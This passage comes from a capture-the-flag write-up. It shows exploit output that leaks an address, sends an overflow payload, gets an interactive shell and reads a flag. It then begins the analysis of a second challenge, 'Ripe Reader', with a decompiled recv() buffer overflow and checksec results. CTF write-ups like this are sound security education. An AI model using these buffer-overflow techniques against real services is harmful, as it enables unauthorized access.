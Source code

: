 ```bash
[+] Opening connection to jh2i.com on port 50020: Done
00000000  78 69 6b 68  75 64                                  │xikh│ud│
00000006
00000000  c0 29 c2 b0  30 7f                                  │·)··│0·│
00000006
[*] 0x7F30B0BA2000
00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
*
00000070  41 41 41 41  41 41 41 41  20 20 60                  │AAAA│AAAA│  `│
0000007b
00000000
[*] Switching to interactive mode
Ouch! That's part is dangerous. In the interest of safety, we won't add it.
$ cat flag.txt
flag{you_broke_the_conveyor}
```

Flag: `flag{you_broke_the_conveyor}`

## Ripe Reader

The program just listens on port `1234`, waits for connection and spawns a child (with `fork`) to serve the client.

This program is vulnerable to bufferoverflow too !

```c++
  char buf[56]; // [rsp+10h] [rbp-40h]
  unsigned __int64 canary; // [rsp+48h] [rbp-8h]

  canary = __readfsqword(0x28u);
  send(client_sock, "Select one of the images:\n", 0x1AuLL, 0);
  send(client_sock, "[1] @_johnhammond\n", 0x12uLL, 0);
  send(client_sock, "[2] @NahamSec\n", 0xEuLL, 0);
  send(client_sock, "[3] @thecybermentor\n", 0x14uLL, 0);
  send(client_sock, "[4] @stokfredrik\n", 0x11uLL, 0);
  send(client_sock, "[q] QUIT\n", 9uLL, 0);
  recv(client_sock, buf, 1024uLL, 0); // <-------------- what causes BOF
```

Let use `checksec` on this.

```bash
(env3) osboxes@osboxes:~/Desktop/nctf$ checksec ripe_reader
[*] '/home/osboxes/Desktop/nctf/ripe_reader'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

`Canary` is found on this binary, so we can't overwrite the return address to make a `rop chain`.
